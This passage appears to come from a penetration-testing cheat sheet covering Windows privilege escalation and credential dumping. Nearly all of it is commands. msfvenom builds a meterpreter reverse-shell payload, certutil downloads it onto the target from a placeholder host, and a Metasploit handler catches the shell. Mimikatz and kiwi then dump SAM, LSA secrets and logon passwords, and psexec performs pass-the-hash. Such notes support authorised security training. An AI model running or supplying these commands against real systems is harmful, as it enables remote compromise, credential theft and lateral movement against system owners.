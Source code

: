 ```bash
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

### **Windows Credential Dumping**

```bash
# Exploitation
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<TARGET_IP> LPORT=1234 -f exe > payload.exe

python -m SimpleHTTPServer 80

## METASPLOIT
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run

## On target system
certutil -urlcache -f http://<TARGET_IP>/payload.exe payload.exe
# Run payload.exe

# METASPLOIT - Meterpreter
sysinfo
getuid
pgrep lsass
migrate <explorer_PID>
getprivs

# Creds dumping - Meterpreter
load kiwi
creds_all
lsa_dump_sam
lsa_dump_secrets

# MIMIKATZ
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell

mimikatz.exe
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords

# PASS THE HASH
## sekurlsa::logonPasswords
background
search psexec
use exploit/windows/smb/psexec
set LPORT <LOCAL_PORT2>
set SMBUser Administrator
set SMBPass <ADMINISTRATOR_LM:NTLM_HASH>
exploit
```
